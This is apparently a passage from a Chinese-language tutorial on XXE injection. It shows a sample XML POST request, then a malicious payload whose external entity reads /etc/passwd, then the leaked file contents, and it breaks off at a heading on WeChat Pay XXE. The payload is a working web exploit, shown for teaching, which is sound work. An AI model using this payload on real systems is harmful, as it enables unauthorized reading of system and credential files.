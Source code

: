 那么问题经常就出现在 api 接口能解析客户端传过来的 xml 代码，并且直接外部实体的引用，比如下面这个
实例一：模拟情况

示例代码：
```
POST /vulnerable HTTP/1.1
Host: www.test.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://test.com/test.html
Content-Type: application/xml
Content-Length: 294
Cookie: mycookie=cookies;
Connection: close
Upgrade-Insecure-Requests: 1

<?xml version="1.0"?>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>XML is the best!</description>
   </core>
</catalog>
```
我们发出 带有 xml 的 POST 请求以后，述代码将交由服务器的XML处理器解析。代码被解释并返回：{“Request Successful”: “Added!”}

但是如果我们传入一个恶意的代码
```
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>&xxe;</description>
   </core>
</catalog>
```
如果没有做好“安全措施” 就会出现解析恶意代码的情况，就会有下面的返回
```
{"error": "no results for description root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync...
```
实例二：微信支付的 XXE
